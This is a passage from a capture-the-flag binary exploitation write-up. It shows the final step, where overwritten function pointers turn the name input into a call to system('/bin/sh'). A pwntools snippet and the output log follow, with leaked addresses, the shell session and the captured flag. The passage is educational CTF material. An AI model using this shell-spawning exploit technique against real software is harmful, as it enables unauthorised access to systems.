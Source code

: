 From here, we just need to exit the game, and trigger our `gettimeofdady => initialize_game` call.
Then, we enter our name as `/bin/sh`, calling `strcspn => system`.

```python
    r.sendlineafter(b'option: ', b'4')
    r.sendlineafter(b'option: ', b'3')
    r.sendlineafter(b'name: ', b'/bin/sh')

    r.interactive()
```

```
0x64943190d030
initialize game:  0x64943190dca2
0x7016f54d2bd0
setbuf 0x7016f54da740
printf 0x7016f54ab0f0
fgets 0x7016f54d0b20
getchar 0x7016f54da0f0
system:  0x7016f54a3740
-368 4
bad
-366 3
-365 7
-364 4
-363 10
-362 15
-361 5
-360 1
-359 6
-358 7
bad
bad
bad
bad
bad
wrote strcspn =  0x7016f54a3740
-384 10
-383 2
-382 13
-381 12
-380 9
bad
-378 3
-377 1
-376 9
-375 4
-374 6
-373 4
bad
bad
bad
bad
wrote gettimeofday =  0x64943190dca2
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
squ1rrel{80%_0f_4ll_g4mbl3rs_qu1t_b3f0r3_th31r_b1g_pwn!}
[*] Got EOF while reading in interactive
```
